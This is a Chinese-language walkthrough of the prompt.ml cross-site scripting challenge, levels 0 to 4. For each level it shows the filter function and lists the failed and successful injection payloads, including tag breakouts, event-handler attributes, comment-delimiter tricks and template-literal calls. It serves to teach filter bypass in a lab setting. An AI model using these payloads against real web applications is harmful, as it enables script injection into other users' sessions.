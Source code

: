 # [Prompt.ml](https://prompt.ml) 实验 writeup

## 0
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}      
```

注入点在于input标签内的value属性，即`'<input type="text" value="' + input + '">'`

所以注入：`"><script>prompt(1)</script>`.

## 1
过滤函数为：
```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}    
```
js中的正则表达式有两种形式：
- 使用一个正则表达式字面量，其由包含在斜杠之间的模式组成 ，例如：`var re = /ab+c/;`；
- 或者调用RegExp对象的构造函数,例如：`var re = new RegExp("ab+c");` 

上面的正则表达式，将 <...> 和</...> 不区分大消息全被过滤为空字符。显然需要可以使用html实体编码来绕过。

html实体编码：
- `&lt;` 或 `&#60;` 表示 < ；
- `&gt;`	`&#62;` 表示 >	大于号

尝试注入：`&#60;script&#62;prompt(1)&#60;/script&#62;` 不成。
尝试注入：`<img src="1" onerror="prompt(1)"`，成功。
尝试注入：`<body onload="prompt(1)"\\`，成功

## 2
```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}    
```

正则是替换了 = 和 ( 为空字符。

`&lpar;`表示（

尝试注入：
```
<script>prompt`1`</script>
&lt;script&gt;prompt&#40;1&#41;&lt;/script&gt;
<svg onload&#61;prompt`1`>
<body onload&#61;prompt`1`>
<img src=1 onerror&#61;prompt`1`>

```

不成功，但有趣的是注入下列语句能弹出alert：

```
<script>alert`1`</script>
```
尝试下列成功:
```
<svg><script>prompt&#40;1)</script>
<script>eval.call`${'prompt\x281)'}`</script>
```

## 3
```js
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

过滤函数将 - ， >转为_ ,并将输入内容全部置入注释中。

尝试失败的payload：
```
--&gt;<svg><script>prompt(1)</script><!--
\x2d\x2d\x3E<body onload="prompt(1)"><!--1
-&#x2D;><script>eval.call`${'prompt\x281)'}`</script><!--1
&#x2d;&#x2d;&#x3E;<script>eval("prompt(1)");</script><!--1
```

尝试下列成功：
```
--!><script>eval("prompt(1)");</script><!--1
1--!><img src=1 onerror="prompt(1)"><!--12
--!><svg><script>prompt(1);</script>
```

## 4
```js
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}       
```

decodeURIComponent() 函数可对 encodeURIComponent() 函数编码的 URI 进行解码。
  

尝试下列payload 失败：
```
http://prompt.ml/js/test.js%22><script>prompt(1);</script>%22
```

http%3A%2F%2Fprompt.ml%2Fjs%2Ftest.js%22%3E%3Cscript%3Eprompt(1)%3C%2Fscrip%3E